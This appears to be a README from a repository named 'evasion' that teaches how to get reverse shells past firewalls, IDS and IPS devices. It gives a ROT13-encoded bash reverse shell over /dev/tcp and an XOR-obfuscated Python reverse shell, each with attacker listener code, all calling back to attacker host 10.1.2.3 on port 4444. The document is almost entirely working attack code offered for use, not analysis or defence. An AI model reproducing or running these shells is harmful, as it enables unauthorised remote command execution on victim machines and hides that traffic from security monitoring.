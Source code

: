 # evasion
Techniques for evading firewalls and anti-malware detection.

Acronyms used:
* UTM - Unified Threat Management.  A class of nextgen firewalls with integrated security features.
* IDS - Intrusion Detection System.  A device that detects malicious network traffic.
* IPS - Intrusion Prevention System.  A device that detects and blocks malicious network traffic.

## ROT13 encoded reverse shell using bash TCP device

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ linux command ]<br />
`IFS=''; (while read -r lin; do echo $lin | tr 'A-Za-z' 'N-ZA-Mn-za-m'; done) | nc -nlvp 4444 | tr 'A-Za-z' 'N-ZA-Mn-za-m'`<br />

( victim )<br />
[ linux command ]<br />
`exec 5<>/dev/tcp/10.1.2.3/4444; /bin/bash 2>&1 <(while read -r lin; do echo $(echo $lin | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m'); done <&5) | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m' >&5; exec 5<&-`<br />

## XOR obfuscated reverse shell using python

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ python script ]<br />
`#!/usr/bin/python`<br />
`import socket`<br />
`s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)`<br />
`s.bind(("0.0.0.0", 4444))`<br />
`s.listen(2)`<br />
`print "Listening... "`<br />
`(client, (ip, port)) = s.accept()`<br />
`print " Received connection from : ", ip`<br />
`while True:`<br />
`  command = raw_input('~$ ')`<br />
`  encode = bytearray(command)`<br />
`  for i in range(len(encode)):`<br />
`    encode[i] ^=0x5A`<br />
`  client.send(encode)`<br />
`  en_data=client.recv(2048)`<br />
`  decode = bytearray(en_data)`<br />
`  for i in range(len(decode)):`<br />
`    decode[i] ^=0x5A`<br />
`  print decode`<br />
`client.close()`<br />
`s.close()`<br />

( victim )<br />
[ python script ]<br />
`#!/usr/bin/python`<br />
`import socket,subprocess,sys`<br />
`RHOST = "10.1.2.3"`<br />
`RPORT = 4444`<br />
`s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`<br />
`s.connect((RHOST, RPORT))`<br />
`while True:`<br />
`  data = s.recv(1024)`<br />
`  en_data = bytearray(data)`<br />
`  for i in range(len(en_data)):`<br />
`    en_data[i] ^=0x5A`<br />
`  comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)`<br />
`  STDOUT, STDERR = comm.communicate()`<br />
`  en_STDOUT = bytearray(STDOUT)`<br />
`  for i in range(len(en_STDOUT)):`<br />
`    en_STDOUT[i] ^=0x5A`<br />
`  s.send(en_STDOUT)`<br />
`s.close()`<br />
